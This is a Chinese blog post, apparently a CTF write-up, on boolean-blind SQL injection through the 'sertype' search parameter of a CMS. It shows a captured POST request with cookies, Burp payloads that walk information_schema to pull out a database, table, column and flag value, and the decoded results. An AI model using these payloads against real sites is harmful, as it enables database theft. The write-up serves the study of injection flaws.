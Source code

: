 ```yaml
---
title: "中环 CMS 主页面存在 SQL 注入"
date: 2024-02-19
description: "主页面搜索功能的 post 请求中搜索类型这个变量可以执行 sql 注入的恶意语句"
tags: ["SQL 注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


## 注入点

第一次见到这种注入点。我们在搜索框输入 t 然后抓包，这是为了保证返回的搜索内容不为空。

![sqli7](/images/sqli1/sqli7-4.png)

发现 sertype 变量在加入恒真恒伪后提供了一个布尔盲注点位。
 
    POST /index.php/index/search HTTP/1.1
    Host: 111.9.41.91:53009
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 140
    Origin: http://111.9.41.91:53009
    Connection: close
    Referer: http://111.9.41.91:53009/index.php/index/search
    Cookie: admin=admin; pass=21232f297a57a5a743894a0e4a801fc3; PHPSESSID=0gficahl2rfqurrer05uhkdv96
    Upgrade-Insecure-Requests: 1

    sertype=1 and 1=2;#&search=t&sub=%E6%90%9C%E7%B4%A2

![sqli7](/images/sqli1/sqli7-5.png)

## 爆破

开 burp 爆破。

构造如下 payload。

    1 and ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=100;# 

    1 and ascii(substr((select table_name from information_schema.tables where table_schema='flag_db' limit 0,1),1,1))=1;#  

    1 and ascii(substr((select column_name from information_schema.columns where table_schema='flag_db' and table_name='flag' limit 0,1),1,1))=1;#  

    1 and ascii(substr((select value from flag_db.flag limit 0,1),1,1))=1;#  

其中 burp 的 payload 位置如下。

    1 and ascii(substr((select schema_name from information_schema.schemata limit $0$,1),$1$,1))=$1$;# 

得到如下结果。

102 108 97 103 95 100 98 flag_db

102 108 97 103 flag

105 100 id 118 97 108 117 101 value

121 119 97 113 123 73 104 122 120 100 73 72 71 115 106 125 ywaq{IhzxdIHGsj}

得到 flag=ywaq{IhzxdIHGsj}。

其中 burp 结果如下图所示。

![sqli7](/images/sqli1/sqli7-1.png)

![sqli7](/images/sqli1/sqli7-0.png)

![sqli7](/images/sqli1/sqli7-2.png)

![sqli7](/images/sqli1/sqli7-3.png)